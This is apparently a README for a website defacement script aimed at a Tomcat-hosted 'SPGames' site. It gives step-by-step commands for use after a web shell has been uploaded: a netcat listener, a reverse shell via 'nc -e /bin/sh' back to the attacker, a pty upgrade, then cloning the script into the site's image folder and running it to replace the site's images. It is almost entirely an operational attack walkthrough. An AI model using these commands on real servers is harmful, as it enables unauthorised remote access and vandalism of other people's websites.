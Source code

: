 # deface_script
## Made for SPGames
Replaces images in /game_images and /images 

# Instructions (after uploading web shell)
### Kali
```
nc -nvlp 4444
```
### Web Shell CMD
```
nc -e /bin/sh 192.168.(fill in) 4444
```
### Kali
```
python -c 'import pty; pty.spawn("/bin/bash");
cd /opt/tomcat-9/apache-timcat-9.0.30/webapps/spgames/game_images
git clone https://github.com/bryonkyd/deface_script.git
cd deface_script/
python3 deface.py
```
